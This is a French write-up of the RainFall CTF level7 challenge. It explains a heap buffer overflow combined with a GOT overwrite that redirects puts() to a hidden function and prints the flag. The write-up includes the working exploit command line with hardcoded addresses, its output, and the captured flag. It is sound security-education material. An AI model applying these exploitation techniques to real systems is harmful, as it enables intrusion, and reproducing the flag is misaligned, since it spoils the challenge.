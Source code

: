 ## Mécanisme d'exécution

1. **malloc(8)** alloue les structures et buffers sur la heap
2. **Premier strcpy** : Les 20 'A' débordent et écrasent le pointeur de la structure 2 avec l'adresse GOT de `puts`
3. **Deuxième strcpy** : Écrit l'adresse de `m()` dans l'entrée GOT de `puts` (à l'adresse 0x08049928)
4. **fgets(c, 0x44, __stream)** : Lit le flag dans la variable globale `c`
5. **puts("~~")** : Appelle en réalité `m()` à cause de la redirection GOT
6. **m()** : Exécute `printf("%s - %d\n", c, tVar1)` et affiche le flag

## Exploitation réussie

```bash
level7@RainFall:~$ ./level7 $(python -c "print 'A'*20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1757405997
```

## Résultats

### Flag obtenu
```
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

### Accès niveau suivant
- **Utilisateur** : `level8`
- **Prochain challenge** : `/home/user/level8/`

## Notes techniques

- **Type de vulnérabilité** : Heap Buffer Overflow + GOT Overwrite
- **Technique d'exploitation** : Global Offset Table Hijacking
- **Architecture** : x86 (32-bit)
- **Concepts introduits** :
  - **GOT Overwrite** : Redirection d'appels de fonctions via la GOT
  - **Heap exploitation avancée** : Manipulation de structures liées sur la heap
  - **Variable globale** : Exploitation d'une variable globale contenant des données sensibles
  - **Fonction cachée** : Découverte et utilisation d'une fonction non appelée dans le flow normal
- **Méthode de découverte** : Analyse statique avec Ghidra + tests empiriques d'offset
- **Offset calculé** : 20 octets pour atteindre le pointeur de la deuxième structure
- **Difficulté** : Avancée - Introduction aux techniques GOT hijacking

## Évolution par rapport aux niveaux précédents

Ce niveau introduit des concepts d'exploitation avancés :
- **GOT Overwrite** : Première utilisation de cette technique dans le CTF
- **Structures heap liées** : Exploitation de structures de données complexes
- **Redirection indirecte** : Utilisation d'une fonction cachée pour révéler des données
- **Analysis forensique** : Découverte de fonctions non documentées dans le binaire

Cette progression prépare aux techniques d'exploitation les plus sophistiquées des niveaux suivants.